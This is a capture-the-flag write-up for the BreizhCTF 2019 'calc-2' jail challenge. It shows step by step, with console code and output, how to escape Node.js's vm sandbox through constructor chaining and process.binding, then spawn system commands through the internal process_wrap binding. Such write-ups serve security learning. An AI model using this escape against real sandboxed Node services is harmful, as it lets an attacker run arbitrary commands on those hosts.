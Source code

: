 ```yaml
---
title: BreizhCTF 2019 - calc-2
authors: dabi0ne
layout: writeup
ctf_url: https://www.breizhctf.com/
---
```

Solves: 0 / Points: 400 / Category: Jail

## Challenge description 
See [challenge source code](/assets/calc2.js)

The sandbox is implemented using [Node.js `vm` module](https://nodejs.org/api/vm.html)

## Challenge resolution
Our goal is to execute a system command to obtain the flag.

### Step one: Escape from the vm
To escape from the vm we will use a constructor of constructor to create an anonymous function with controlled body.

This is a simple example using Firefox JS console:
```js
>> this.constructor.constructor("alert(1)")
function anonymous()
>> this.constructor.constructor("alert(1)").toString()
"function anonymous(
) {
alert(1)
}"
```

Using this technique we can execute code outside the vm context.
Indeed, the `this` object, when it is returned by calling `constructor`, is not restricted to log function:
```js
>> log(this.constructor.constructor('return this')());
> EOF
[Function: anonymous]
Object [global] {
  global: [Circular],
  process:
   process {
     title: 'nodejs',
     version: 'v10.15.2',
.
.
.
  setImmediate:
   { [Function: setImmediate] [Symbol(util.promisify.custom)]: [Function] },
  setInterval: [Function: setInterval],
  setTimeout:
   { [Function: setTimeout] [Symbol(util.promisify.custom)]: [Function] } }
```

Comparing to the vm context:
```js
> log(this);
> EOF
{ log: [Function] }
```

### Step two: Execute a shell command
The `process.mainModule` of the script was cleaned so we didn't have access to the `require` function:
```js
/* remove mainModule for better security */
process.mainModule = {};
```

However, we identified that the `binding` function is available on the object returned by the constructor:
```js
> log(this.proc = this.constructor.constructor('return this.process')());

binding: [Function: binding]
```
The `binding` function allows loading internal modules. 
Firstly, we tried to read the flag from the file using the `fs` module:
```js
> log(this.constructor.constructor('return this.process.binding')()('fs')
```
Fail :( 

But we were able to list directories and identify the flag location:

```js
> log(this.constructor.constructor('return this.process.binding')()('fs').readdir('/home/guest', {}, "","", function (err, data) {data}));
```

After a tip from the challenge author: "you don't have `child_process` and its `exec` function, so write it"


So let's read [nodejs source code on Github for `child_process`](https://github.com/nodejs/node/blob/master/lib/internal/child_process.js):

The outcome is that the `child_process` uses an internal binding of `process_wrap` to execute commands by calling the `spawn` function:

```js
const { Process } = internalBinding('process_wrap');

child.spawn({
    file: opts.file,
    args: opts.args,
    cwd: options.cwd,
    windowsHide: !!options.windowsHide,
    windowsVerbatimArguments: !!options.windowsVerbatimArguments,
    detached: !!options.detached,
    envPairs: opts.envPairs,
    stdio: options.stdio,
    uid: options.uid,
    gid: options.gid
});
```

Hence, we have to create a `Process` object and call its `spawn` function to execute system commands:

1 - Check if the binding doesn't fail: 
```js
> log(this.constructor.constructor('return this.process.binding')()('process_wrap'));
> EOF
{ Process: [Function: Process] }

```
2 - Instantiate a `Process` object:
```js
> log(this.proc_wrap = this.constructor.constructor('return this.process.binding')());
> log(this.Process = this.proc_wrap('process_wrap').Process);
> log(this.process = new Process());
```

3 - Call the `spawn` function with the good parameters:

```js
> log(this.env = this.constructor.constructor('return this.process.env')());
> log(this.mproc  = this.constructor.constructor('return this.process')());
> log(this.sot = this.constructor.constructor('return this.process.stdout')());
> log(this.sin = this.constructor.constructor('return this.process.stdin')());
> log(this.rc = process.spawn({file:'/home/guest/flag_reader',args:[],cwd:"/home/guest",windowsVerbatimArguments:false,detached:false,envPairs:this.env, stdio:[mproc.stdin, mproc.stdout, mproc.stderr]}));

> EOF

breizctf_flag{FORGOTTEN_FLAG}
```

